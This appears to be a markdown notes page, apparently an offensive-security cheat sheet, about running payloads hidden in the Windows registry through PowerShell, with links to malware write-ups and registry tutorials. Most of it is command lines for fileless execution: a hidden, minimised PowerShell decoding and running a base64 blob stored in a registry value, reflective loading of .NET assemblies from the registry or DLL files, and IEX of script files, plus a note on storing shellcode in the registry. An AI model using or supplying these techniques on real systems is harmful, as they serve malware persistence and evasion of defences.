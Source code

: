 # Scripting

## PowerShell

TODO: Other ideas is to use registries to include shellcode and execute it.

https://blog.sonicwall.com/en-us/2022/06/guloader-a-fileless-shellcode-based-malware-in-action/

```
%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -c "sleep 0; IEX([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String((Get-Item 'HKLM:SOFTWARE\<registry_key>').GetValue('<registry_value_name>'))))"
```

```powershell
powershell -Command " [Reflection.Assembly]::Load([System.Convert]::FromBase64String((Get-ItemProperty 'HKCU:\Software\Classes\<registry_key>').b64encAssembly)); [CMD_exec.Class1]::RunCMD()"

powershell IEX ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((get-itemproperty 'HKCU:\Software\Classes\<registry_key>').b64encPS)))

powershell -Command " [Reflection.Assembly]::Load(([System.IO.File]::ReadAllBytes('C:\path\to\payload.dll')); [CMD_exec.Class1]::RunCMD();"

powershell -Command " [Reflection.Assembly]::LoadFile('C:\path\to\payload.dll'); [CMD_exec.Class1]::RunCMD();"

powershell IEX (Get-Content C:\path\to\payload.ps1 -Raw)
```

https://az4n6.blogspot.com/2018/06/malicious-powershell-in-registry.html

adding registry persistence by spliting the shellcode hexadecimal

https://thedfirreport.com/2024/02/26/seo-poisoning-to-domain-control-the-gootloader-saga-continues/

---
## References

### Tenouk

- [Tenouk: Windows Process & Threads - A Supplementary Note](https://www.tenouk.com/chijklsupp.html)

- [Tenouk: Registry - Part 1](https://www.tenouk.com/ModuleO.html)

- [Tenouk: Registry - Part 2](https://www.tenouk.com/ModuleO1.html)

- [Tenouk: Registry - Part 4](https://www.tenouk.com/ModuleP1.html)

- [Tenouk: Windows Registry - A Supplementary Note](https://www.tenouk.com/copregsupp.html)